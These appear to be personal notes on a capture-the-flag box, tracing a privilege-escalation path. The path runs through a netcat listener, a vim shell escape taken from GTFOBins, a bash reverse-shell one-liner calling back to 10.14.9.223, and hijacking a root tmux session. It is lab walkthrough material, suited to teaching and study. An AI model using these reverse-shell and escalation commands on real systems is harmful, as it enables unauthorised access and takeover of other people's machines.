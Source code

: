 ```bash
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
HISTFILE=/dev/null
APACHE_RUN_USER=www-data
OPEN_PORT=4545
MAIL=/var/mail/ArthurMorgan
TERM=xterm
SHELL=/bin/sh
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=3
LOGNAME=ArthurMorgan
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
HISTSIZE=0
HISTFILESIZE=0
_=/usr/bin/env


```
- ### OPEN PORT=4545
- #### start nc listener on port 4545
- ### receive a connection back from some sort of binary with a list of 4 option
```
ArthurMorgan@incognito:/tmp$ nc -lnvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 53262 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit

```
- - ### chosing opt 4 dumps you into a vim editor
	- using the vimshell exploit from [[gtfobins]]
```
:!/bin/sh
[No write since last change]
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)

```
- ## get a partial shell as marstin
	- ### use bash one liner to get a full shell interactive shell as marston
		- #### bash -c 'bash -i >& /dev/tcp/10.14.9.223/1235 0>&1'
		 ```bash
		 
nc -lnvp 1235
listening on [any] 1235 ...
connect to [10.14.9.223] from (UNKNOWN) [10.10.154.230] 34842
bash: cannot set terminal process group (1459): Inappropriate ioctl for device
bash: no job control in this shell
marston@incognito:~$ 
		 ```
- ###  type tmux attach 
	- drops you into a tmux session then it's just a matter of finding which tmux terminal marston was running as root in
![[Pasted image 20220309125242.png]]
	- Ctrl+b then n untill you find the terminal running as root
